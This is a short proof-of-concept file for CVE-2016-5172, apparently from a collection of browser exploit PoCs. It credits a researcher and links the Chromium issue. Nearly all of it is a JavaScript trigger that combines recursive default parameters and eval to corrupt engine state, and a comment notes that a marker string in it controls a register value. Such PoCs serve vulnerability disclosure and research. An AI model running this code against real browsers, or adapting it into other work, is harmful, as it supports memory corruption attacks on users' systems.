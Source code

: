# CVE-2016-5172

- Date: Jun 2016
- Credit: Choongwoo Han

## PoC

```javascript
this.__defineSetter__("x", function(){});
function go (y = (function rec(a1, a2) {
    // The position of "AAAA" controls a register value.
    if (a1.length == a2) { b = "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCAAAA"; }
    rec(a1, a2 + 1);
})([,], 0)
        , b = eval("")
        )
{}
go(x);
```

## Reference

- [Issue](https://crbug.com/616386)

